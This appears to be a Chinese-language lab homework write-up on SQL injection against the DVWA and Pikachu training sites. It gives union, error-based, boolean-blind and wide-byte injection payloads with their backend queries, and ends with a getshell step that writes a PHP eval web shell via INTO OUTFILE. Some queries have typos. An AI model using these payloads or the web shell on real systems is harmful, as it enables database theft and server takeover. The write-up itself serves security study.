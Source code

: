 1. 分别在前端和后端使用 Union 注入实现“dvwa 数据库 -user 表 - 字段 -first_name 数据”的注入过程，写清楚注入步骤。
   **前端**
   
   1. 判断是整型还是字符型？数字型（1 and 1=1）
   
   2. 判断列数（order by）、显示位（1' union all select 1,2 # 或者1' order by 1...3，3报错知道是两列）
   
   3. 获取目标dvwa数据库名和版本信息（1' union select database(),version()#）
   
   4. 获取dvwa表名（1' union select 1,group_concat(table_name) from information_schema.tables where table_schema ='dvwa'#）
   
   5. 获取user表的字段名（1' UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'#）
   
   6. 获取first_name 数据（1' union select user,first_name from users#）
   
   **后端**
   
   1. 判断是整型还是字符型？数字型（select first_name,last_name from users where id = '1 and 1=1'）
   
   2. 判断列数（order by）、显示位（select first_name,last_name from users where id = '1' union all select 1,2 # '）
   
   3. 获取目标dvwa数据库名和版本信息（select first_name,last_name from users where id = '1' union select database(),version()#'）
   
   4. 获取dvwa表名（select first_name,last_name from users where id = '1' union select 1,group_concat(table_name) from information_schema.tables where table_schema ='dvwa'#'）
   
   5. 获取user表的字段名（select first_name,last_name from users where id = '1' UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'#'）
   
   6. 获取first_name 数据（select first_name,last_name from users where id = '1' union select user,first_name from users#'）

2. 分别在前端和后端使用报错注入实现“dvwa 数据库 -user 表 - 字段”的注入过程，写清楚注入步骤，并回答下列关于报错注入的问题：
   **前端**
   
   1. 获取目标dvwa数据库名（1' and extractvalue(1,concat(0x7e,database()));#）
   
   2. 获取dvwa表数（1' and extractvalue(1,concat(0x7e,(select count(table_name) frominformation_schema.tables where table_schema=database())));#）
   
   3. 获取dvwa表名user（1' and extractvalue(1,concat(0x7e,(select table_name frominformation_schema.tables where table_schema=database() limit 1,1)));#）
   
   4. 获取user表的字段名（1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1)));#）
      **后端** 
   
   5. 获取目标dvwa数据库名（select first_name,last_name from users where user_id ='1' and extractvalue(1,concat(0x7e,database()));#'）
   
   6. 获取dvwa表数（select first_name,last_name from users where user_id ='1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database())));#'）
   
   7. 获取dvwa表名user（select first_name,last_name from users where user_id ='1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1)));#'）
   
   8. 获取user表的字段名（select first_name,last_name from users where user_id ='1' UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'#'）
* 在 extractvalue 函数中，为什么’~'写在参数 1 的位置不报错，而写在参数 2 的位置报错？
  
  * 写在参数1就是个字符串，符合语法
  * 写在参数2，XPATH语法报错，路径不能包含~符号

* 报错注入中，为什么要突破单引号的限制，如何突破？
  
  * 会有过滤或者防护手段
  * 十六进制镜像替换

* 在报错注入过程中，为什么要进行报错，是哪种类型的报错？
  
  * 报错才能收集到信息
  * 对应函数语法规则的报错，而不是mysql本身的语法错误
4. 任选布尔盲注或者时间盲注在前端和后端实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤。
   **前端**
   判断是否存在注入，注入的类型（1'and 1=1）
   判断当前数据库名称的长度**4**（1' and length(database())=4;#）
   判断数据库名称的字符组成元素**dvwa**（1' and ascii(substr(database(),1,1))=100;#；1' and ascii(substr(database(),2,1))=118;#;1' and ascii(substr(database(),3,1))=119;# ;1' and ascii(substr(database(),4,1))=97;#）
   判断数据库的表的个数**2**（1' and (select count(table_name) from information_schema.tables wheretable_schema=database())=2;#）
   判断dvwa数据库中第一张表的名称字符长度**9**（1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=9;#）
   判断dvwa数据库中第一张表的名称组成元素**guestbook**（1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=103;#）
   判断dvwa数据库中第二张表的名称字符长度**5**（1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=5;#）
   判断dvwa数据库中第一张表的名称组成元素**users**（1' and ascii(substr((select table_name from information_schema.tables wheretable_schema=database() limit 0,1),1,1))=117;#）
   判断users表中的字段个数**8**（1' and (select count(column_name) from information_schema.columns wheretable_schema=database() and table_name='users')=8;#）
   猜解users表中的各个字段的名称**users、password**（1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='user')=1;；1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='password')=1;#）
   **后端**
   判断是否存在注入，注入的类型（select first_name,last_name from users where user_id =1 and 1=1）
   判断当前数据库名称的长度**4**（select first_name,last_name from users where user_id =1 and length(database())=4;#）
   判断数据库名称的字符组成元素**dvwa**（select first_name,last_name from users where user_id =1 and ascii(substr(database(),1,1))=100;；select first_name,last_name from users where user_id =1 and ascii(substr(database(),2,1))=118;;select first_name,last_name from users where user_id =1 and ascii(substr(database(),3,1))=119; ;select first_name,last_name from users where user_id =1 and ascii(substr(database(),4,1))=97;）
   判断数据库的表的个数**2**（select first_name,last_name from users where user_id =1 and (select count(table_name) from information_schema.tables wheretable_schema=database())=2;）
   判断dvwa数据库中第一张表的名称字符长度**9**（select first_name,last_name from users where user_id =1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=9;）
   判断dvwa数据库中第一张表的名称组成元素**guestbook**（select first_name,last_name from users where user_id =1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=103;）
   判断dvwa数据库中第二张表的名称字符长度**5**（select first_name,last_name from users where user_id =1 and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=5;）
   判断dvwa数据库中第一张表的名称组成元素**users**（select first_name,last_name from users where user_id =1 and ascii(substr((select table_name from information_schema.tables wheretable_schema=database() limit 0,1),1,1))=117;）
   判断users表中的字段个数**8**（select first_name,last_name from users where user_id =1 and (select count(column_name) from information_schema.columns wheretable_schema=database() and table_name='users')=8;）
   猜解users表中的各个字段的名称**users、password**（select first_name,last_name from users where user_id =1 and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='user')=1;；select first_name,last_name from users where user_id =1 and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='password')=1;）

5. 利用宽字节注入实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤。
   
   1. 首先判断为字符型注入
   
   2. 构造宽字节注入（kobe%df' or 1=1#）burp删掉**25**即可逃逸成功
   
   3. 获取数据库名称**pikachu**（kobe%df' union select database(),version()#）
   
   4. 获取表名**httpinfo、member、message、users、xssblind**（kobe%df' union select 1,group_concat(table_name) from information_schema.columns where table_schema=database() #）
   
   5. 获取列名**id、username、pw、sex、phonenum、address、email**（kobe%df' union select1,group_concat(column_name) from information_schema.columns wheretable_schema='pikachu' and table_name='member'#）

6. 利用 SQL 注入实现 DVWA 站点的 Getshell，写清楚攻击步骤。
   
   1. 写入1' union select 1,"<?php eval($_POST['a']);" intooutfile'/var/www/html/shell2.php
   
   2. 进入http://主机名:8081/shell2.php
   
   3. 打开HackBar或者蚁剑（密码：a）
   
   4. ![3bbb96cf-2156-4ed2-b851-c621169a0254](file:///C:/Users/m1521/Pictures/Typedown/3bbb96cf-2156-4ed2-b851-c621169a0254.png)
